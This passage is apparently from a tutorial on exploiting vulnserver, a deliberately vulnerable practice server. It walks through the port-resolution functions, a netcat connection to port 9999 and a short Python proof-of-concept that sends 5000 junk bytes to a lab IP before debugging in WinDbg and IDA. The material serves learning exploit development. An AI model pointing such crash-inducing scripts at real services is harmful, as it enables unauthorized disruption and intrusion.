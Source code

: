 <p align="justify">
As we see above, the second argument is a pointer to a NULL-terminated ANSI string that contains either a service name or port number which is represented as a string.
</p>

<p align="justify">
Similar information regarding the port number we also get from the <code><b>ntohs</b></code> function, which,  in general terms and according to MSDN, converts a <code><b>u_short</b></code> from TCP/IP network byte order to host byte order (which is little-endian on Intel processors). The <code><b>ntohs</b></code> function can be used to convert an IP port number in network byte order to the IP port number in host byte order. Following, is the prototype of the <code><b>ntohs</b></code> function
</p>


```c
u_short ntohs(
  u_short netshort
);
```

<p align="justify">
Having this information, we can confirm that the server listens on port <code><b>9999</b></code>. As we see below, we are running netcat tool to connect to port <code><b>9999</b></code></p>

<script id="asciicast-mkwzV0kymb3F0BmRStGe45boN" style="display: block;margin-left: auto;margin-right: auto;" src="https://asciinema.org/a/mkwzV0kymb3F0BmRStGe45boN.js" async></script>

<p align="justify">
As we see, there are some commands used by the vulnserver that need more investigation. At this point we will perform some research regarding the functionality of vulnserver. We will be using the following poc script in order to send some junk data to the vulnserver.   

</p>

```python 
#!/usr/bin/python

import os
import sys
import socket

host = "192.168.201.9"
port = 9999

buffer = "A"*5000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
print "[*] Sending exploit..."
s.send(buffer)
print s.recv(1024)
s.close()
```

<p align="justify">
At this point we are ready to run the script above in order to observe the functional behaviour of the vulnserver. For this reason we will be using WinDbg and IDA Pro. First we will run vulnserver on the target machine and then we will start IDA and attach WinDbg as seen below  
</p>
